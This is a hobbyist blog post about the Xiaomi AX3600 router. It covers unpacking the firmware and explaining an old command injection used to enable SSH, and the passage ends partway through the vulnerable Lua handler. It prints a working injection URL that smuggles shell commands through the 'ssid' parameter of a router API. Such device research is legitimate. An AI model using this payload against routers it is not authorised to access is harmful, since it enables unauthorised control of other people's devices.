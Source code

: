 title: 'AX3600 - Post #1'
author: Oded Lazar
tags:
  - linux
  - xiaomi
  - ax3600
categories:
  - hacking
date: 2020-11-30 21:08:00
---
In my [previous post](/2020/10/23/AX3600-0) I gave you an intro about AX3600 and how awesome it is. This post will focus on how to gain persistent ssh on the device.

First off, I recommend following the OpenWRT effort on porting AX3600: [Adding OpenWrt support for Xiaomi AX3600 For Developers](https://forum.openwrt.org/t/adding-openwrt-support-for-xiaomi-ax3600/55049). Until then, follow this guide.

All the scripts, firmwares, configuration files, etc' mentioned in this post are available on GitHub: [odedlaz/ax3600-files](https://github.com/odedlaz/ax3600-files). Please feel free to open issues or better yet - pull requests!!



# gain SSH access

All you need to know is that early versions of the router had a command injection vulnerability that is now closed. In order to gain ssh access, you first need to downgrade your router's firmware then run the commands listed in [OpenWRT's page](https://openwrt.org/inbox/toh/xiaomi/xiaomi_ax3600). But what is the command injection? taking closer look at the source...

We want to extract the firmware. Thankfully, there's a tool just for that: [ubi_reader](https://github.com/jrspruitt/ubi_reader).
Follow the instruction and get it up and running. Once you do, [download the firmware](http://cdn.cnbj1.fds.api.mi-img.com/xiaoqiang/rom/r3600/miwifi_r3600_firmware_5da25_1.0.17.bin) and run:

```bash
$ ubireader_extract_images -o xioamifw -w miwifi_r3600_firmware_5da25_1.0.17.bin
$ unsquashfs -f -d xiaomifw xioamifw/miwifi_r3600_firmware_5da25_1.0.17.bin/img-1696626347_vol-ubi_rootfs.ubifs
```

The command injection URL looks like this:
```
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Anvram%20set%20ssh%5Fen%3D1%0A
```

How does it work? let's find `set_config_iotdev`:
```bash
$ grep! -R "set_config_iotdev"
xioamifw/miwifi_r3600_firmware_5da25_1.0.17.bin/output/usr/lib64/lua/luci/controller/api/misystem.lua:    entry({"api", "misystem", "set_config_iotdev"},           call("setConfigIotDev"), (""), 221)
```

Ok, it looks like there's a file called `misystem.lua` that contains all the controller apis. Also, the `set_config_iotdev` parameter is tied to the `setConfigIotDev`. easy enough... let's look at it:
```lua
function setConfigIotDev()
    local XQFunction = require("xiaoqiang.common.XQFunction")
    local LuciUtil = require("luci.util")
    local result = {
        ["code"] = 0
    }

    local ssid = LuciHttp.formvalue("ssid")
    local bssid = LuciHttp.formvalue("bssid")
    local uid = LuciHttp.formvalue("user_id")
```